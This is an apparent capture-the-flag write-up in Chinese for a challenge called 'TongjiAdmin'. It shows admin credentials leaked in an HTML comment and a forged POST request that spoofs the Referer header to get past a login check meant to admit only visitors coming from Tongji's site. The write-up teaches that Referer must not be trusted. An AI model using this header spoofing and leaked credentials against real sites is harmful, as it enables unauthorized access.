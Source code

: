 # TongjiAdmin

## Message

YOU SHALL NOT PASS!

## 考点

- 查看网站源码的习惯；

- HTTP Request Header 中 `Referer` 字段不可信。只能用于参考性的数据分析，不可用于安全用途。


## Writeup

1. 查看源码，发现注释：

   ```HTML
    <!-- 以防忘记： Admin:admin. -->
    <!-- 我才不担心有人发现这个注释。让那些可恶的黑客们知道了登陆信息又怎样，反正只有通过同济的网站才能登陆。 -->
   ```

2. 向目标 ip 和 port 发送以下 HTTP Requst 即可返回 flag。 

   ```http
   POST / HTTP/1.1
   Host: target_ip:target_port
   Referer: any.tongji.edu.cn
   
   username=Admin&password=admin
   ```
   

